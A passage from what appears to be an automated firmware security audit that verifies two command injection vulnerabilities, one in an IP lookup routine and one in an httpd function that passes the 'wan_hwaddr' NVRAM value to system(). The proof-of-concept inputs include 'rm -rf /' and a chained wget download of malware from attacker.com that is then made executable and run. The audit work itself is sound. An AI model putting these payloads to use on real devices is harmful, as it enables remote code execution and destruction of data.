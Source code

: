 - **Detailed Reason:** The alert accurately describes the command injection vulnerability in `sym.ip_country_lookup`. Evidence from Radare2 analysis shows: 1) At address 0x00014700, a format string 'wget "http://www.speedtest.net/api/country?ip=%s" -O /tmp/IPcountry_lookup' is used in `sprintf` with the IP address as an argument (from `r2`, which is derived from `r0` passed to the function). 2) The resulting string is executed via `system` at 0x00014728. 3) The IP address originates from network data via `inet_ntoa` in `sym.send_control_channel_string` (at 0x00014ea0-0x00014ea8), and this function is triggered when 'PUSH_REPLY' is processed (checked via strstr at 0x00014e70). There is no input sanitization, allowing shell metacharacters (e.g., ;, `) in the IP address to break out and execute arbitrary commands. The attack chain is viable: an attacker with valid credentials and network access can send a crafted 'PUSH_REPLY' message with a malicious IP address (e.g., '127.0.0.1; rm -rf /' or '127.0.0.1; wget http://attacker.com/malware -O /tmp/malware; chmod +x /tmp/malware; /tmp/malware') to achieve remote code execution. This constitutes a high-risk vulnerability due to the potential for full system compromise.

### Verification Metrics
- **Verification Duration:** 153.62 seconds
- **Token Usage:** 383719

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `usr/sbin/httpd`
- **Location:** `函数fcn.00068df0，具体在system调用前的sprintf操作处。`
- **Description:** 命令注入漏洞存在于函数fcn.00068df0中，完整攻击链如下：
- **攻击源**：NVRAM变量'wan_hwaddr'，攻击者可通过网络接口（如HTTP API）或其它机制控制该变量。
- **传播路径**：变量值通过`acosNvramConfig_get`获取（地址0x69ab8指向'wan_hwaddr'），直接传递给`sprintf`格式化字符串（地址0x69abc指向'echo "    <txt-record>sys=waMA=%s,adVF=0x1000</txt-record>" >> /etc/avahi/services/adisk.service'），其中`%s`未经验证或转义即嵌入变量值。
- **危险汇聚点**：生成的字符串通过`system`函数执行，允许任意命令注入。如果'wan_hwaddr'包含shell元字符（如分号），攻击者可终止原命令并执行恶意代码。
- **触发条件**：当函数fcn.00068df0被执行时（例如系统初始化或特定触发），且'wan_hwaddr'被设置为恶意值。
- **可利用性分析**：漏洞可利用的原因是NVRAM值在用于命令字符串前缺少验证或转义。攻击者设置'wan_hwaddr'为值如'; malicious_command #'可突破原命令，以进程权限（通常为root）执行任意代码。
- **Code Snippet:**
  ```
  uVar5 = sym.imp.acosNvramConfig_get(*0x69ab8);  // *0x69ab8指向'wan_hwaddr'
  sym.imp.sprintf(puVar19 + -0x574, *0x69abc, uVar5);  // *0x69abc指向包含%s的格式化字符串
  sym.imp.system(puVar19 + -0x574);  // 执行构造的命令
  ```

### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** The security alert is fully supported by the evidence from the binary analysis. The function fcn.00068df0 in usr/sbin/httpd retrieves the NVRAM variable 'wan_hwaddr' using acosNvramConfig_get (address 0x69ab8 points to 'wan_hwaddr') and directly incorporates it into a command string via sprintf (address 0x69abc points to the format string 'echo "    <txt-record>sys=waMA=%s,adVF=0x1000</txt-record>" >> /etc/avahi/services/adisk.service'). The resulting string is executed by system without any validation or escaping, allowing command injection. The code path is reachable under conditions where the function is triggered (e.g., during system initialization or via specific HTTP requests). An authenticated attacker can exploit this by setting 'wan_hwaddr' to a malicious value, leading to arbitrary command execution with root privileges. PoC: Set 'wan_hwaddr' to '; malicious_command #' to break out of the original command and execute arbitrary code, e.g., '; rm -rf / #' would delete filesystem contents.
